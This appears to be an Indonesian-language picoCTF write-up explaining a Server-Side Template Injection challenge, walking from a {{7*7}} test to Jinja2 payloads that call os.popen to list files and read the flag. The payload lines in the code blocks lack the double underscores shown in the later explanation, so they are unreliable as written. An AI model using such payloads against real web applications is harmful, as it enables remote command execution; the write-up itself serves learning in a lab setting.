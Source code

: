 # 🧪 picoCTF - SSTI (Server-Side Template Injection)

## 📝 Deskripsi Soal

> I made a cool website where you can announce whatever you want! Try it out!  
> I heard templating is a cool and modular way to build web apps! Check out my website here!

SSTI (Server-Side Template Injection) adalah celah keamanan yang memungkinkan penyerang menyuntikkan ekspresi template ke dalam sistem yang kemudian dievaluasi/dieksekusi oleh server. Ini biasa ditemukan pada web yang menggunakan template engine seperti Jinja2 (Python), Twig (PHP), atau lainnya.

---

## 🔍 Langkah Penyelesaian

1. Cek apakah web rentan SSTI dengan payload sederhana:

![Contoh Tampilan](Home.png)

``` bash
{{7*7}}
```

Jika hasilnya adalah:

49


Maka website dapat dieksploitasi karena input kita dieksekusi di sisi server.

![Contoh Hasil 49](Hasil49.png)

2. Eksekusi perintah Linux untuk melihat isi direktori:

```python
{{ config.class.init.globals['os'].popen('ls').read() }}
```

Output akan menampilkan daftar file dalam folder kerja aplikasi.

![Contoh Output ls](Outputls.png)

3. Untuk membaca isi file flag:

```python
{{ config.class.init.globals['os'].popen('cat flag').read() }}
```

Perintah ini akan mencoba menampilkan isi file bernama flag di direktori tersebut.

---

## 💡 Catatan Tambahan

- Ekspresi `config.__class__.__init__.__globals__` adalah salah satu cara untuk mengakses built-in module dalam template engine Jinja2, memungkinkan kita memanggil os.popen() dan mengeksekusi command Linux.

---

## ⚠️ Disclaimer

Write-up ini dibuat berdasarkan pemahaman pribadi dalam proses belajar. Jika terdapat kekeliruan atau kekurangan, mohon dimaklumi 🙏  




